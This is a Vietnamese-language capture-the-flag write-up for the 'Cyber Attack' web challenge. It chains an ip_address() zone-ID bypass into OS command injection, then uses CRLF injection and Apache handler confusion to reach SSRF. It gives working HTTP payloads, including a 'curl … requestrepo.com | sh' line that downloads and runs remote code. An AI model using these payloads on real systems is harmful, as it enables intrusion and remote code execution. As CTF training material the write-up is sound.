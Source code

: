 ```yaml
---
layout: default
title: "Cyber Attack"
date: 2025-03-28 21:39:26 +0700
tags: [CTF, Cyber Apocalypse CTF 2025: Tales from Eldoria]
---
```


# [web] Cyber Attack - web - easy
> Author: tan3ora
- Tên: Cyber Attack
- Description: Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.
- *Có source code*
---
## Phân tích
Web target có 2 chức năng:
1. Attack a Domain trỏ tới `/cgi-bin/attack-domain.py` 
2. Attack an IP trỏ tới `/cgi-bin/attack-ip.py`

### Bypass ip_address() -> OS CmdI
Phân tích source code `attack-domain.py` : 
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```
và `attack-ip.py` : 
```python
...
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
...
```
Ở đây đều có thể khai thác OS command Injection nếu ta kiểm soát được giá trị `target` , tuy nhiên phải bypass qua hàm `ip_address()` hoặc bypass regex :
```python
def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)
```
Sau khi tìm kiếm thì có thể bypass được qua hàm `ip_address()` dựa vào [đây](https://hackmd.io/@chuongcd/kmactf2024#ipaddress).
Nên để khai thác OS cmdi ta chỉ cần dùng payload `fe80::1%<command>` là được.

Kiểm tra config của Apache:
```
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```
Ta thấy  `Attack an IP` chỉ chấp nhận được gọi khi dùng IP local -> cần tìm cách để SSRF tới `Attack an IP`,và chắc chắn là từ `Attack a Domain`.

### Handler Confusion -> SSRF
Quay lại phân tích `attack-doamin` ta phát hiện `attack-domain.py` trong `cgi-bin` đã in ra `name` trong thông báo lỗi mà không hề lọc ký tự đặc biệt:
```python
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
```
Có thể sử dụng `CRLF Injection` để inject thêm header,mà ta đã biết ở file cấu hình Apache đã cấu hình `AddType application/x-httpd-php .php` thay vì `AddHandler application/x-httpd-php .php` điều này nghĩa là `AddType` chỉ gán giá trị vào `r->content_type`, không gán trực tiếp `handler`.
Do code cũ trong Apache (từ 1996), Apache có đoạn:
```C
if (!r->handler) {
    r->handler = r->content_type;
}
```
Điều này có thể bị lợi dụng để ép Apache dùng `content_type` làm `handler` –> gây ra Handler Confusion.

Để biết thêm chi tiết có thể đọc thêm tại [đây](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%F0%9F%94%A5-3-Handler-Confusion). 

Ta có thể khai thác `CRLF Injection` -> `Handler Confusion` -> `SSRF` với payload : 
```
GET /cgi-bin/attack-domain?target=1.1.1.1&name=ttp://%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:<Link_target> HTTP/1.1
Host: 127.0.0.1:1337
Connection: keep-alive
```
## Khai thác
Bypass `ip_address()` và khai thác OScmdi với payload: 
```
target=fe80::1%;curl 1e5qhv69.requestrepo.com | sh&name=hi
```
Ở requestrepo,sử dụng payload để lấy flag:
![](https://)![](http://note.bksec.vn/pad/uploads/c75ebb82-0061-461d-bf6d-08e12d27bcac.png)


Gửi request:
![](https://)![](http://note.bksec.vn/pad/uploads/42308799-a797-4e00-bf6f-e2e52d5a0add.png)
```
GET /cgi-bin/attack-domain?target=1.1.1.1&name=ttp://%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip%3Ftarget%3dfe80%253a%253a1%2525%253bcurl%25201e5qhv69.requestrepo.com%2520|%2520sh%26name%3dhi%20%0d%0a%0d%0a HTTP/1.1
Host: 127.0.0.1:1337
Connection: keep-alive
```
Lấy flag:
![](https://)![](http://note.bksec.vn/pad/uploads/5a80d9e5-87fc-45bb-9c60-225573ce158d.png)


